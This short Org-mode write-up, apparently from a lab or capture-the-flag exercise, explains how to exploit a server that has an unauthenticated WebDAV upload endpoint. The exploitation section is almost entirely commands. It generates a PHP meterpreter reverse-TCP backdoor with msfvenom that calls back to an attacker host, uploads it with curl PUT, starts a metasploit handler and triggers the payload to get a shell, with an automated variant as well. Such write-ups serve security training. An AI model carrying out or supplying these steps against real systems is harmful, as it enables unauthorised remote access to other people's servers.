

* Exploitation
** Manual
The exploit begins with a carefully crafted php payload generated by =msfvenom=

#+begin_src shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.122.100 LPORT=4444 > backdoor.php
#+end_src

This payload is then uploaded using the unauthenticated WebDAV endpoint on the victim

#+begin_src shell
curl -X PUT -d @./backdoor.php 192.168.122.18/uploads/backdoor.php
#+end_src

From now, run a handler using metasploit

#+begin_src shell
  msfconsole -r exploit.rc
#+end_src

Then query the payload using the browser or shell

#+begin_src shell
curl 192.168.122.18/uploads/backdoor
#+end_src

You should have an meterpreter shell ready which can escalate to a real shell using the =shell= command.

#+CAPTION: Successful exploit

** Automated
#+begin_src shell
  msfconsole -r automated.rc
#+end_src
